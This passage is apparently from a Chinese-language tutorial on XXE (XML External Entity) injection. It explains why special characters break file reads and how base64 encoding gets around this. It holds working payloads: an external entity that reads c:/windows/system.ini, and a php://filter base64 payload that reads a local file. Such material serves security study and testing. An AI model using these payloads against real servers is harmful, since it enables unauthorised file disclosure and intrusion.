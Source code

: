 当读取的文件中有特殊符号的时候，直接读取会报错。

![img](XXE.assets/modb_20211021_183008fc-3260-11ec-b086-fa163eb4f6be.png)

问题出在

```
...
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
<creds>&goodies;</creds>
```

引用并不接受可能会引起 xml 格式混乱的字符(在XML中，有时实体内包含了些字符，如&,<,>,",'等。这些均需要对其进行转义，否则会对XML解释器生成错误)

这时候我们就可以利用CDATA或者base64编码来绕过

##### 1.使用base64编码

使用base64编码进行XXE可以防止返回包验证，得到的值进行解码即可还原

payload：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test[
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/1.txt">
]>
<test>&file;</test>
```
